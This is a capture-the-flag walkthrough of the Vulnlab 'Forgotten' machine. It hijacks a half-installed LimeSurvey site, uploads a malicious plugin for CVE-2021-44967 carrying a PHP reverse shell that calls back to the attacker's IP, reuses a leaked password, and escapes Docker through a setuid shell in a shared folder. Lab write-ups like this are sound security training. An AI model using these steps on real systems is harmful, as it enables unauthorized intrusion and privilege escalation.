Vulnlab: Forgotten
Reconnaissance
First we start with an nmap scan to see what ports are open on this machine.
$ nmap -sV -sC -T5 -p- 10.10.78.218
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:�
| 256 e9:c5:61:e4:eb:23:00:cd:76:96:1f:9a:8b:88:5c:f1 (ECDSA)
|_ 256 1d:7c:c1:65:ee:87:f8:8f:2b:32:74:2e:43:8d:e7:35 (ED25519)
80/tcp open http Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods:�
|_ Supported Methods: HEAD GET POST OPTIONS
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Enumeration
Web enumeration
gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -u http://10.10.87.193 -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.87.193
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Extensions: php,html
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/survey (Status: 301) [Size: 313] [--> http://10.10.87.193/survey/]
This survey page is asking us to setup/install database for LimeSurvey
 We are going to create a database temporarily to set this up and hope it gives us more access to the site.
sql commands to setup a database
CREATE DATABASE limesurvey_db;�
CREATE USER 'limesurvey_user'@'localhost' IDENTIFIED BY 'your_password';
GRANT ALL PRIVILEGES ON limesurvey_db.* TO 'limesurvey_user'@'localhost';�
FLUSH PRIVILEGES;�
EXIT;
Now we need to edit some files to allow connections from this machine.
sudo nano /etc/mysql/mariadb.conf.d/50-server.cnf
bind-address = 0.0.0.0 #Change from localhost to 0.0.0.0
sudo systemctl restart mariadb
Allow access to database from machine ip
sudo iptables -A INPUT -p tcp -s 10.10.78.218 --dport 3306 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 3306 -j DROP
Grant access to our database from the machine ip
sudo mysql -u root -p
CREATE USER 'limesurvey_user'@'10.10.78.218' IDENTIFIED BY 'your_password';
GRANT ALL PRIVILEGES ON limesurvey_db.* TO 'limesurvey_user'@'10.10.78.218';
FLUSH PRIVILEGES;
EXIT;
Once we finish this we will want to make sure we revert these changes back to normal
sudo ufw delete allow from 10.10.78.218 to any port 3306
sudo nano /etc/mysql/mariadb.conf.d/50-server.cnf
bind-address = 127.0.0.1 # change bind address back to 127.0.0.1
Start the installation for LimeSurvey
We will point it at our database on our machine 
It should find our database and recognize that it exists. 
Once done we should be given credentials to login to the website. 
We have RCE with this CVE and a good walkthrough of this exploit here.
Limesurvey-RCE
CVE-2021-44967 Walkthrough
Downloading the exploit from github above we need to make a few changes. We need to edit the config.xml file and the php-rev.php file then zip it up.
┌──(kali㉿kali)-[~/Desktop/Vulnlab/Forgotten/Limesurvey-RCE]
└─$ ls
config.xml exploit.py php-rev.php README.md Y1LD1R1M.zip
We need to change the config.xml file to look like the file below
──(kali㉿kali)-[~/Desktop/Vulnlab/Forgotten/Limesurvey-RCE]
└─$ cat config.xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
<metadata>
<name>Y1LD1R1M</name>
<type>plugin</type>
<creationDate>2020-03-20</creationDate>
<lastUpdate>2020-03-31</lastUpdate>
<author>Y1LD1R1M</author>
<authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
<supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
<version>5.0</version>
<license>GNU General Public License version 2 or later</license>
<description>
<![CDATA[Author : Y1LD1R1M]]></description>
</metadata>
<compatibility>
<version>3.0</version>
<version>6.3.7</version> # CHANGE THIS VERSION TO THE VERSION OF LIME SURVEY
</compatibility>
<updaters disabled="disabled"></updaters>
</config>
Now we need to change the reverse shell to our IP
──(kali㉿kali)-[~/Desktop/Vulnlab/Forgotten/Limesurvey-RCE]
└─$ cat php-rev.php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.5.199'; // CHANGE THIS
$port = 443; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
SNIP.....
After those changes have been made we can zip up our exploit and upload it to the web page.
┌──(kali㉿kali)-[~/Desktop/Vulnlab/Forgotten/Limesurvey-RCE]
└─$ zip -r Y1LD1R1M_new.zip config.xml php-rev.php
adding: config.xml (deflated 56%)
adding: php-rev.php (deflated 61%)
Once logged in we go to Configuration -> Plugins -> Upload & Install
Click upload and install at the top and upload our zipped folder 
Next we need to activate the malicious plugin

Once activated we can access the file at this url, this took a bit to figure out but after reading the exploit.py code it was easy to understand.
http://10.10.78.218/survey/upload/plugins/Y1LD1R1M/php-rev.php
Once we navigate to the shell file we will get a callback to our machine.

Looking at the hostname of efaa6f5097ed its safe to assume we are probably in a docker container and linpeas will confirm that. 
Our user is in the sudo group but we need to find a password to be able to exploit this. 
I missed this initially but found it later scrolling through linpeas output, we find valid credentials for limesvc.
limesvc:5W5HN4K4GCXf9E 
We need to get a full shell with this command as without a full shell we cannot use sudo su or su.
limesvc@efaa6f5097ed:/$ script -qc /bin/bash /dev/null

We are root but still stuck in the docker container
Testing this password with the actual machine ip and we can ssh in and grab the user flag
┌──(kali㉿kali)-[~/Desktop/Vulnlab/Forgotten/Limesurvey-RCE]
└─$ ssh limesvc@10.10.78.218
(limesvc@10.10.78.218) Password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-1012-aws x86_64)
Last login: Sat Dec 2 15:32:15 2023 from 10.10.1.254
limesvc@ip-10-10-200-233:~$ ls
user.txt
limesvc@ip-10-10-200-233:~$ cat user.txt
VL{426b3b0a5425049b}
After some enumeration we realize the host machine has a folder that is linked to the docker container.
/var/www/html/survey is linked to /opt/limesurvey/pwn on the host machine
Create a test file on docker machine
root@efaa6f5097ed:/var/www/html/survey# mkdir pwn
root@efaa6f5097ed:/var/www/html/survey# cd pwn
root@efaa6f5097ed:/var/www/html/survey/pwn# touch test.txt
Verify the file exists on host machine
limesvc@ip-10-10-200-233:/opt/limesurvey/pwn$ ls
test.txt
Since we are root on the docker container we should be able to exploit this on the actual machine. We are going to copy /bin/sh to this folder and give it special permissions with chmod u+s
root@efaa6f5097ed:/var/www/html/survey/pwn# cp /bin/sh .
root@efaa6f5097ed:/var/www/html/survey/pwn# chmod u+s sh
We will see the file show up on the host machine
limesvc@ip-10-10-200-233:/opt/limesurvey/pwn$ ls
test.txt sh
And now we can exploit this
limesvc@ip-10-10-200-233:/opt/limesurvey/pwn$ ./sh -p
# whoami
root
# hostname
ip-10-10-200-233

Conclusion
This was the end for Forgotten. It was a really fun machine and was very realistic. Others who have done this machine mentioned they have seen this exact scenario in live engagements.